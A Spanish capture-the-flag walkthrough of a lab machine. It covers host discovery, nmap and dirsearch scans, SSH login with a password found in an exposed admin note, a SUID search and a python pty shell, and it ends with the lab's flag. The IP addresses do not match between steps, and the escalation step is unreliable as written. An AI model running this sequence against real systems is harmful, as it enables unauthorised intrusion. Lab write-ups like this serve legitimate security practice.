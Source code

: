 Primero Obtenemos la IP de nuestra maquina atacante:
```
ifconfig
```

Utilizando " netdiscover " procedemos a encontrar los equipos conectados en la red:
```
sudo netdiscover -r 192.168.1.0/24
```

Una ves encontrada la IP de la maquina victima comenzamos a realizar un escaneo de puertos, utilizaremos " nmap ":
```
sudo nmap -sV -A -T5 192.168.1.30
```
![[nmap.png]]

![Texto alternativo](imagenes/nmap.png)


Encontramos que tenemos los puertos:
- 22 corriendo un servicio " ssh "
- 80 corriendo un servicio " web - apache "
Revisamos en el navegador con la IP de la maquina victima para ver si tiene desplegado un sitio web.
![[paguina_web.png]]

Revisamos el código de la paguina web:
![[codigo_web.png]]

Procedemos a realizar una enumeración de directorios con la IP de la victima utilizando la herramienta " dirsearch ".
```
dirsearch -u http://192.168.1.12/
```
![[dirsearch.png]]

vemos una repuesta " /admin/ " al cual entramos para revisar y encontramos una nota, donde el usuario mensiona de una contraseña " 12345ted123 " y podemos decir que " ted " puede ser nombre de usuario.
![[nota.png]]

Con esta información intentaremos conectarnos por " ssh "
- contraseña: 12345ted123
```
ssh ted@192.168.1.12
```
![[ssh.png]]

Buscamos los archivos que tiene permisos el usuario ted para ver si podemos encontrar un forma de poder aprovechar la escalabilidad de privilegios " SUID Binaries ". 
```
find / -perm -u=s -type f 2>/dev/nul
```
l![[files.png]]

Podemos usar " python2.7 " para abrir una shell interactiva y elevar privilegios con un pequeño programa. 
```
python2.7 -c 'import pty;pty.spawn("/bin/sh")'
```
![[root.png]]

Una ves siendo root buscaremos la flag /root/flag.txt:
- Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
![[flag.png]]























